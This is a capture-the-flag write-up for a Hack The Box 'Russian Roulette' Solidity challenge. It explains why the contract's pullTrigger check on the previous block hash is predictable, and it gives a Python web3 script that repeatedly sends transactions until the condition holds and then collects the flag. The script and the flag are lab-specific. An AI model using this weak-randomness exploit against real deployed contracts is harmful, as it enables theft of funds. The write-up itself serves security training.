 # Russian Roulette

> Difficulty: Very Easy
>
> Welcome to The Fray. This is a warm-up to test if you have what it takes to tackle the challenges of the realm. Are you brave enough?

Solution:

We are given with two files:
1. `Setup.sol`
2. `RussianRoulette.sol`

And the ability to spawn two Docker instances, which is for the RPC to connect to the blockchain and netcat to interact with the challenge instance.

Looking at the files, it uses version `0.8.23` to compile.

![image](1.png)

Though I currently have an old one

![image](2.png)

So I went to https://remix.ethereum.org/ 

![image](3.png)

Then changed the compiler version to `0.8.23`

![image](4.png)

Then I uploaded the contracts from earlier

![image](5.png)

Based on the code, the goal of the challenge is to call `pullTrigger()`, pass the logical condition, and execute `selfdestruct` in order to get the flag.

To pass the logical condition, it:
1. Retrieves the current block number then subtracts 1 to get previous block number `block.number - 1`
2. The block hash of the previous block number is then retrieved `blockhash(block.number - 1)`
3. It then converts it into an unsigned integer `uint256(blockhash(block.number - 1))`
4. It's modulus is then taken by 10 `uint256(blockhash(block.number - 1)) % 10 `
5. And lastly, it check if it's equal to 7 `uint256(blockhash(block.number - 1)) % 10 == 7`

Since we're sending a transaction, we need to get the ABI first (solidity compiler > compile > copy abi)

![image](6.png)

Now that we have the ABI, let's retrieve the challenge contract

![image](7.png)

Cool, we were given the private key as well. We can restart when needed and get the flag later.

Let's check if we have a balance first

```python
from web3 import Web3

# Connect to HTB's Ethereum node
htbRPC = 'http://83.136.249.247:31125/'
web3 = Web3(Web3.HTTPProvider(htbRPC))

# Setting up account
privateKey = 'redacted'
account = web3.eth.account.from_key(privateKey)

balance = web3.from_wei(web3.eth.get_balance(account.address), 'ether')

print(f"Balance: {balance}")
```

![image](8.png)

Nice, we have 5000 testnet ETH

So what we want to do is send transactions until the trigger value of 7 is met then retrieve the flag afterwards

```python
from web3 import Web3
from pwn import *
import time
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

# Connect to HTB's Ethereum node
htbRPC = 'http://83.136.249.247:31125/'
web3 = Web3(Web3.HTTPProvider(htbRPC))

# Setting up account
privateKey = 'redacted'
account = web3.eth.account.from_key(privateKey)

# Challenge contract address
targetContractAddress = Web3.to_checksum_address('0x3c050716Cb53807E520d8577D229f737952c62e4')

# Contract ABI from Remix
contractABI = [
	{
		"inputs": [],
		"stateMutability": "payable",
		"type": "constructor"
	},
	{
		"inputs": [],
		"name": "pullTrigger",
		"outputs": [
			{
				"internalType": "string",
				"name": "",
				"type": "string"
			}
		],
		"stateMutability": "nonpayable",
		"type": "function"
	}
]

# Create the contract instance
contract = web3.eth.contract(address=targetContractAddress, abi=contractABI)

def sendTx():
    # Estimate gas to call pullTrigger
    gasEstimate = contract.functions.pullTrigger().estimate_gas({'from': account.address})

    # Prepare the transaction to call pullTrigger
    transaction = contract.functions.pullTrigger().build_transaction({
        'from': account.address,
        'nonce': web3.eth.get_transaction_count(account.address),
        'gas': gasEstimate,
        'gasPrice': web3.eth.gas_price
    })

    # Sign the transaction
    signedTxn = web3.eth.account.sign_transaction(transaction, private_key=privateKey)

    # Send the transaction
    txnHash = web3.eth.send_raw_transaction(signedTxn.rawTransaction)

    # Wait for the transaction receipt
    txnReceipt = web3.eth.wait_for_transaction_receipt(txnHash)

    print(f'Transaction successful with hash: {txnReceipt.transactionHash.hex()}')

def retrieveFlag():
    conn = remote('83.136.249.247', 49091)
    conn.sendlineafter('action? ', '3')
    print(conn.recvline().decode())
    conn.close()

while True:
    currentBlock = web3.eth.get_block_number()
    previousBlockHash = web3.eth.get_block(currentBlock - 1).hash
    triggerValue = int(previousBlockHash.hex(), 16) % 10

    print(f"Current block: {currentBlock} -> Previous block hash: {previousBlockHash.hex()} -> Trigger value: {triggerValue}")

    sendTx()

    time.sleep(1)

    if triggerValue == 7:
        print('Retrieving flag...')
        retrieveFlag()
        break
```

Now let's run it!

![image](9.png)

Boom!

Flag: `HTB{99%_0f_g4mbl3rs_quit_b4_bigwin}`
